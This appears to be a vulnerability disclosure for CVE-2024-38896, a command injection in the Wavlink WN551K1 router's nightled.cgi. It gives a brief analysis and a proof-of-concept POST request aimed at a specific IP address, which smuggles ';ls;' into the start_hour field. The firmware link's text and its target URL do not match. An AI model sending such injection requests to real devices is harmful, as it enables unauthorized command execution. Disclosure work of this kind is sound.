




#  WAVLINK WN551K1 found a command injection vulnerability through the start_hour parameter of /cgi-bin/nightled.cgi.

Product: Wavlink WN551K1

Manufacturer's website information：https://www.wavlink.com/en_us/index.html

Firmware download address ：[https://files.wavlink.com/fw/mesh/WN551K1%2CK2%2CK3-C-WAVLINK-WO-20210427-1087985](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-38896

### Analysis

First, set the **page** parameter to **night_led**



Then set the parameter **v6**, which is copied to buffer v33 without any filtering and can be executed





### POC

```python
POST /cgi-bin/nightled.cgi HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Upgrade-Insecure-Requests: 1


page=night_led&start_hour=;ls;
```



